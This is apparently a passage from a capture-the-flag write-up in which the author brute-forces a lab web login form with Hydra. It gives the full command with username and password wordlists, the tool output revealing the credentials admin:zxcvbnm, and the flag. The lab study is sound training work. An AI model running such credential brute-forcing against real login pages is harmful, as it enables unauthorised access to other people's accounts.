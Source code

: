 Remember that crafting the correct `params` string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. Once Hydra has completed the attack, log into the website using the found credentials, and retrieve the flag.

# Question
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250213151909.png)

We can use the following hydra command:

```
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials" -t 60
```

We get the following output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 20:19:47
[DATA] max 60 tasks per 1 server, overall 60 tasks, 3400 login tries (l:17/p:200), ~57 tries per task
[DATA] attacking http-post-form://94.237.54.190:48919/:username=^USER^&password=^PASS^:F=Invalid credentials
[48919][http-post-form] host: 94.237.54.190   login: admin   password: zxcvbnm
[STATUS] attack finished for 94.237.54.190 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Got credentials:

```
`admin`:`zxcvbnm`
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250213152115.png)

Flag is:

```
HTB{W3b_L0gin_Brut3F0rc3}
```


